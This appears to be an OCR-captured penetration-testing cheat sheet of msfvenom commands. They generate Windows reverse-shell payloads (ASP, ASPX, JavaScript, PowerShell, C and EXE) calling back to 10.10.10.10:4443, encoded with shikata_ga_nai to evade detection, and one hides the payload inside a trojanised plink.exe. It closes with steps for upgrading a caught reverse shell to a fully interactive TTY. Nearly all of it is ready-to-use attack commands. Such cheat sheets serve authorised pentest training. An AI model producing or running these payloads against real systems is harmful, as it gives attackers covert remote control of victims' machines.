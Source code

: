  # Windows ASP reverse shell
` msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai
 -o shell.asp`

 # Windows ASPX reverse shell
` msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai
 -o shell.aspx`

 # Windows JavaScript reverse shell with nops
` msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 1
 8`

 # Windows Powershell reverse shell
` msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f
 psh -o shell.ps1`

 # Windows reverse shell excluding bad characters
` msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -
 b "\x00\x04" -e x86/shikata_ga_nai`

 # Windows x64 bit reverse shell
` msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe`

 # Windows reverse shell embedded into plink
` msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai
 -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe`




Interactive Shell
Upgrading to a fully interactive TTY using Python
 # Enter while in reverse shell
 $` python -c 'import pty; pty.spawn("/bin/bash")'`

 Ctrl-Z
  # In Kali


       $ stty raw -echo
       $ fg

 #  In reverse shell
       $   reset
       $   export SHELL=bash
       $   export TERM=xterm-256color
       $   stty rows <num> columns <cols>
